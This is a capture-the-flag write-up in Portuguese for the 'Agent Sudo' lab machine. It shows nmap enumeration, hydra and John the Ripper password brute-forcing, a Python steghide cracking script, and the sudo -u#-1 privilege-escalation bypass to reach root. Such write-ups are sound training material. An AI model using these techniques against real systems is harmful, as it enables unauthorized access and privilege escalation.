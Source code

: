 # _**Agent SUDO CTF**_
![](agent_sudo.jpg)

## _**Enumeração**_
Primeiro, um scan com <mark>Nmap</mark> para determinar versões e quais portas estão abertas
> ```bash
> nmap -p 0-20000 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Acessando o endereço da página, temos a seguinte mensagem  

![](agent_access.jpg)

Assumindo que para acessar a verdadeira página, é preciso de uma das letras do alfabeto, buscamos por cada uma através do comando ```cURL``` e uma em específico chama a atenção
> ``` bash
> curl -A “C” -L [ip_address]
> ```
![](curl_return.jpg)

## _**Ganhando acesso**_
O nome identificado é <mark>chris</mark>, e sua senha é fraca  
Vamos realizar um teste de força bruta em _ftp_ e _ssh_ com seu nome. Para isso, utilizamos a ferramenta <mark>hydra</mark>  
> ```bash
> hydra -l chris -P ../wordlists/rockyou.txt -t 4 ftp
> ```  
![](hydra_return.jpg)  

Vamos realizar login via _ftp!_
Listando os arquivos com ```ls```, conseguimos encontrar um arquivo: <mark>To_agentJ.txt</mark>  

![](agent_j.jpg)

Então, extrai-se as imagens encontradas no diretório de chris com ```wget```  
Ao tentar usar <mark>steghide</mark> para acessar a senha contida na imagem extraída (.jpg), é requerido uma senha  
Para isso, vamos utilizar este script em python para tentar realizar um ataque de força bruta contra essa senha  
``` bash
import subprocess

imagem = "imagem.jpg"
wordlist = "rockyou.txt"

with open(wordlist, "r", encoding="latin-1") as f:
	for senha in f:
    	senha = senha.strip()
    	if not senha:
        	continue
    	print(f"[*] Testando senha: {senha}")
    	try:
        	result = subprocess.run(
            	["steghide", "extract", "-sf", imagem, "-p", senha, "-f"],
            	stdout=subprocess.PIPE,
            	stderr=subprocess.PIPE,
            	text=True
        	)
        	# Verifica saída (steghide retorna mensagem no stderr se falhar)
        	if "wrote extracted data" in result.stdout.lower():
            	print(f"\n[V] SENHA ENCONTRADA: {senha}")
            	break
    	except Exception as e:
        	print(f"[!] Erro: {e}")
```

Após nenhum retorno, procuram-se outros meios
Uma ferramenta chamada <mark>binwalk</mark> pode extrair arquivos escondidos de dentro de imagens. Vamos usar o comando abaixo  
> ```bash
> binwalk -e [nome_arquivo]
> ```  
Temos 3 saídas  
* 365  
* 365.zlib  
* 8702.zip   

Primeiro, extraímos o conteúdo _.zip_  
Está bloqueado por senha  
Vamos tentar realizar um brute-force nessa senha com <mark>John the ripper</mark>  

![](zip_extract.jpg)

A senha foi descoberta!  
Agora, extraímos o seu conteúdo  
Temos um arquivo: <mark>To_agentR.txt</mark>  

![](agent_c.jpg)

A imagem que eles querem enviar é para algum lugar
Buscando o que significam essas letras, temos <mark>base64</mark>
> ```bash
> echo ‘QXJlYTUx’ | base64 -d
> ```

<mark>Area51</mark> pode significar muitas coisas  
Estamos procurando por uma senha para extrair o conteúdo de <mark>cute-alien.jpg</mark>  
Vamos tentar  

![](cute_alien.jpg)

O nome do agente J é: <mark>james</mark>  
E sua senha: <mark>hackerrules</mark>  
Vamos tentar realizar login via SSH na conta de james  

![](ssh_login.jpg)

Listando seus arquivos com ```ls```, temos uma imagem _.jpg_ e _userflag.txt_  
O arquivo .txt não está criptografado, garantindo uma flag  
Utilizando o comando ```scp```, extraímos a imagem para nossa máquina local
> ```bash
> scp james@[ip_address]:/home/james/Alien_autospy.jpg
> ```
![](scp_extract.jpg)  

A imagem é relacionada ao caso Roswell, mais conhecido como <mark>Roswell Alien Autopsy</mark>  

## _**Escalando privilégios**_
Para conseguirmos escalar privilégios a partir da conta de james, vamos verificar o que ele pode executar como sudo através do comando abaixo
> ```bash
> sudo -l
> ```

Temos o seguinte retorno
_**Matching Defaults entries for james on agent-sudo: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin**_  
_**User james may run the following commands on agent-sudo: (ALL, !root) /bin/bash**_  

Parece que james não tem permissão para executar <mark>/bin/bash</mark> como _root_, pois temos um <mark>!root</mark>  
No entanto, isso parece estranho, pois o primeiro _**all**_ significa que nosso usuário pode executar <mark>/bin/bash</mark> como qualquer usuário  
Vamos pesquisar no google por (ALL, !root) vulnerabilities  
Achamos o seguinte caso  

![](exploit_db.jpg)  

Ao utilizar o comando abaixo, o _**sudo**_ não verifica a existência do ID do usuário especificado e executa com um ID de usuário arbitrário com o privilégio _**sudo**_
> ```bash
> sudo -u#-1 /bin/bash
> ```
![](sudo_esc.jpg)

Basta então buscar a flag root!
![](root_flag.jpg)

Para o nome do agente R, basta ver quem é o criador da sala (deskel)

